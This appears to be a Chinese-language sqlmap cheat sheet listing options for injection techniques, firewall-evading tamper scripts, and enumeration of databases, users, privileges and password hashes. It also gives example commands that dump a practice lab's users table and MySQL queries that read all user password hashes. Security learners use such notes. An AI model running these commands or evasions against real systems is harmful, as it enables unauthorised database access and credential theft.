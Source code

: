 ```
    --wizard            Simple wizard interface for beginner users
```



### 常用参数

```
Target：

--batch   # 自动选择y/n
--random-agent  # 随机生成一个类似浏览器的agent，通常用于屏蔽sqlmap自带的user-agent
--technique=B   # 指定注入类型
--tamper=file.py  # 指定自定义的py文件
-v Verbose 0-6(default 1)
	0 - 只显示错误和关键信息
	1 - 警告和信息
	2 - 调试信息
	3 - 显示payload信息
	4 - 显示整个请求
	5 - 返回报文的头部
	6 - 返回报文内容
	

Injection：
-p # 指定注入的参数，如：-p username

Request：
--method  # 指定请求方式，如：--method post
--data   # 请求时的数据，如：--data "username=admin&passworld=admin"
如发送post数据：sqlmap -u http://192.168.0.150:8080/Less-11/ --technique=E --tamper=safedog.py --batch --random-agent --method post --data "uname=admin&passwd=admin" -p uname --dbs
Enumeration：
--curent-user # 应用程序操作mysql数据库的当前用户
--current-db  # 操作的当前数据库
--hostname # 主机名
--is-dba  # 判断当前用户是不是管理员
--users   # 枚举出所有的用户
--passwords # 枚举出所有用户的密码
--privileges  # 枚举出个用户的权限
--tables  # 枚举出指定数据库当中的表
--roles  # 枚举出用户的角色
--dbs  # 枚举出所有的数据库
--tables # 枚举出指定数据中的所有表
--dump-all # 枚举出指定表中所有的字段
如：sqlmap -u 'http://192.168.0.150:8080/Less-3/?id=1' --technique=U --tamper=safedog.py --batch --random-agent  -D security -T users --dump-all


mysql常量：
显示版本：select version();
显示字符集：select @@character_set_database;
显示计算机名：select @@hostname；
显示系统版本：select @@version_compile_os;
显示mysql路径：select @@basedir;
显示数据库路径：select @@datadir;
显示所有用户密码：SELECT `user`,`authentication_string` FROM mysql.user;
```
